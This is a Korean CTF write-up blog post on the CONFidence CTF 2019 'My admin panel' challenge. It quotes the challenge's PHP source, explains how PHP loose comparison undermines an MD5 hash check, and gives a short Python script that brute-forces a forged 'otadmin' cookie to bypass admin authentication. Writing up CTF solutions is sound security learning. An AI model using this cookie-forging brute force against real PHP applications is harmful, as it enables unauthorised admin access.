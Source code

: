 ```yaml
---
layout: post
title: ! "[CONFidence CTF 2019] My admin panel"
categories: [CTF]
excerpt: " "
comments: true
share: true
tags:
  - CTF
  - MitNy
  - Write-up
---
```


Teaser CONFidence CTF 2019의 `My admin panel` 문제이다.
[Link](https://gameserver.zajebistyc.tf/admin/)
![]({{ site.baseurl }}/images/mitny/CONFidence/myadminpanel.png)

```php
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();

```

코드를 보면 otadmin 쿠키가 존재하지 않으면 "Not authenticated."가 뜬다.
디렉토리에서 바로 login.php 파일에 접근했을 때 뜨는 메시지와 동일하다.

otadmin 쿠키가 정규식 [0-9A-Z\"]와 일치하지 않거나 session_data가 NULL이면 "COOKIE TAMPERING xD IM A SECURITY EXPERT"가 뜬다.

![]({{ site.baseurl }}/images/mitny/CONFidence/myadminpanel_burp.png)
![]({{ site.baseurl }}/images/mitny/CONFidence/myadminpanel_hint.png)

hash 값과 strtoupper(MD5($cfg_pass))가 일치하지 않으면 위와 같이 힌트를 주는데
이 부분에서 loose comparison을 사용한다.
PHP는 loose comparision으로 정수와 문자열을 비교할 때 정수를 문자열의 첫 번째 숫자와 비교한다.
EX) 123 !== "123", 123 == "123aaa"

![]({{ site.baseurl }}/images/mitny/CONFidence/loose_comparision.png)

`0006464640640064000646464640006400640640646400` 에서 앞부분 세 자리를 Bruteforce 하면 될 것 같다.


```py
import requests
  
url = "https://gameserver.zajebistyc.tf/admin/login.php"
s = requests.Session()

for i in range(500):
    r = s.get(url, cookies={'otadmin':'{"hash": '+str(i)+'}'})
    if "GIVE" not in r.text:
        print(r.text)
        print("HASH : "+str(i))
        break

```

![]({{ site.baseurl }}/images/mitny/CONFidence/myadminpanel_flag.png)

플래그 !! 
